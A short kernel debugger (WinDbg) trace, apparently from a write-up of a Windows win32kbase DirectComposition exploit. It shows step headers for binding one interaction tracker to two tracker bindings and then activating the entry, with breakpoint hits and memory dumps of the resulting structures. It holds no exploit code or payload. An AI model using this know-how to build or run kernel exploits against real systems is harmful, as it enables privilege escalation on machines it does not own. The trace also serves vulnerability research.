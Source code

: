 ```

```

```
[+] Bind Tracker to the First TrackerBinding
0: kd> g
Breakpoint 1 hit
win32kbase!DirectComposition::CInteractionTrackerBindingManagerMarshaler::SetBufferProperty:
ffffb598`64f4d510 48895c2418      mov     qword ptr [rsp+18h],rbx

0: kd> g
Breakpoint 1 hit
win32kbase!DirectComposition::CInteractionTrackerBindingManagerMarshaler::SetBufferProperty:
ffffb598`64f4d510 48895c2418      mov     qword ptr [rsp+18h],rbx

0: kd> dps ffffb5b9`82fffc20+0x190        # tracker1->binding_obj
ffffb5b9`82fffdb0  ffffb5b9`84c1b450
ffffb5b9`82fffdb8  00000000`00000000

0: kd> dps poi(ffffb5b9`84c1b450+0x38)    # point to struct CInteractionTrackerBindingManagerMarshalerA
ffffb5b9`84d9f010  ffffb5b9`82fffc20
ffffb5b9`84d9f018  ffffb5b9`82fffc20
ffffb5b9`84d9f020  00000000`41414141
ffffb5b9`84d9f028  00000000`00000001

```

```
[+] Bind Tracker to the Second TrackerBinding
0: kd> g
Breakpoint 1 hit
win32kbase!DirectComposition::CInteractionTrackerBindingManagerMarshaler::SetBufferProperty:
ffffb598`64f4d510 48895c2418      mov     qword ptr [rsp+18h],rbx

1: kd> dps poi(ffffb5b9`84c1b1b0+0x38)    # point to struct CInteractionTrackerBindingManagerMarshalerB
ffffb5b9`806c2010  ffffb5b9`82fffc20
ffffb5b9`806c2018  ffffb5b9`82fffc20
ffffb5b9`806c2020  00000000`42424242
ffffb5b9`806c2028  00000000`00000001

1: kd> dps ffffb5b9`82fffc20+0x190
ffffb5b9`82fffdb0  ffffb5b9`84c1b1b0
ffffb5b9`82fffdb8  00000000`00000000

```

```
[+] Activate the Entry by setting tracker_id to Non-ZERO
1: kd> g
Breakpoint 3 hit
win32kbase!DirectComposition::CInteractionTrackerMarshaler::ReleaseAllReferences:
ffffb598`64f4c0b0 48895c2408      mov     qword ptr [rsp+8],rbx

0: kd> dps poi(ffffb5b9`84c1b450+0x38)    # point to struct CInteractionTrackerBindingManagerMarshalerA
ffffb5b9`84d9f010  ffffb5b9`82fffc20
ffffb5b9`84d9f018  ffffb5b9`82fffc20
ffffb5b9`84d9f020  00000000`41414141
ffffb5b9`84d9f028  00000000`00000001

```
